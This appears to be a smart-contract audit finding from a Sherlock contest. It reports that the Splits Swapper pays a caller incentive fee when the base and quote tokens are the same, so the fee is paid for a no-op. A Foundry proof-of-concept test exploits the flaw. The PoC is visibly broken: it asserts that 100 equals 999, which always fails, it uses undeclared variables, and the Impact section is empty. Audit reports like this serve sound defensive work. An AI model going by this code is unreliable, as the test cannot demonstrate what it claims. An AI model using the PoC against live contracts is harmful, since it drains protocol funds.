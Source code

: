 GalloDaSballo

medium

# If Quote Token is on Swapper, then a fee will be paid for a no-op

## Summary

Since there's always a caller incentive for the Swapper, any time the tokenIn is the same as the tokenOut, the caller will receive a fee for a no-op

https://github.com/sherlock-audit/2023-04-splits/blob/main/splits-oracle/test/UniV3OracleImpl.t.sol#L264-L265

## Vulnerability Detail

We know the values is less than 100% so the same token can be inputed, the pool skips the existance check and that will cause a fee to be taken for a no-op

## Impact

## Code Snippet

Add to `SwapperImpl.t.sol`

```solidity
function test_scamTheSwapper() public unpaused {
        initParams.tokenToBeneficiary = mockERC20;
        vm.prank(address(swapperFactory));
        swapper.initializer(initParams);

        vm.startPrank(trader);

        mockScamERC20.push(
            OracleImpl.QuoteParams({
                quotePair: QuotePair({base: mockERC20, quote: mockERC20}),
                baseAmount: 1 ether,
                data: ""
            })
        );

        quoteParams = mockScamERC20;
        qp = quoteParams[0];
        base = qp.quotePair.base;
        quote = qp.quotePair.quote;

        traderBasePreBalance = base._balanceOf(trader);
        swapperBasePreBalance = base._balanceOf(address(swapper));
        beneficiaryBasePreBalance = base._balanceOf(beneficiary);

        traderQuotePreBalance = quote._balanceOf(trader);
        swapperQuotePreBalance = quote._balanceOf(address(swapper));
        beneficiaryQuotePreBalance = quote._balanceOf(beneficiary);

        MockERC20(mockERC20).approve(address(swapper), .98 ether);

        vm.mockCall({
            callee: trader,
            msgValue: 0,
            data: abi.encodeCall(ISwapperFlashCallback.swapperFlashCallback, (quote, 0, "")),
            returnData: ""
        });

        swapper.flash(quoteParams, "");

        uint256 based  = 100;
        uint256 value  = 999;

        assertEq(based, value, "Left is 100, right is 999");
        assertEq(base._balanceOf(trader), traderBasePreBalance + 1 ether, "Base Balance of Trader");
        assertEq(base._balanceOf(address(swapper)), swapperBasePreBalance - 1 ether, "Base Balance of Swapper");
        assertEq(base._balanceOf(beneficiary), beneficiaryBasePreBalance, "Base Balance of Beneficiary");

        assertEq(quote._balanceOf(trader), traderQuotePreBalance - 1 ether, "Quote Balance of Trader");
        assertEq(quote._balanceOf(address(swapper)), 0, "Quote Balance of Swapper");
        assertEq(quote._balanceOf(beneficiary), beneficiaryQuotePreBalance + swapperQuotePreBalance + 1 ether, "Quote Balance of Beneficiary");
    }
  ```

## Tool used

Manual Review

## Recommendation

In case of a no-op sweep directly to the beneficiary

